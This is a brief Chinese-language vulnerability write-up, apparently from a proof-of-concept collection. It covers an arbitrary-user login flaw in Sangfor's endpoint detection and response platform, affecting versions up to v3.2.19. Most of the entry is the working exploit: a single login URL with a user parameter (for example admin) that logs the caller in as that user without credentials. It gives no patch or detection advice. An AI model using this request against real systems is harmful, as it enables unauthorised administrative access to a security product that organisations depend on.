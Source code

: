 # 深信服后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 影响版本

> [!NOTE]
>
> EDR <= v3.2.19

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

> [!NOTE]
>
> 注意最后的admin需要为存在的用户名

![](./image/sxf-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)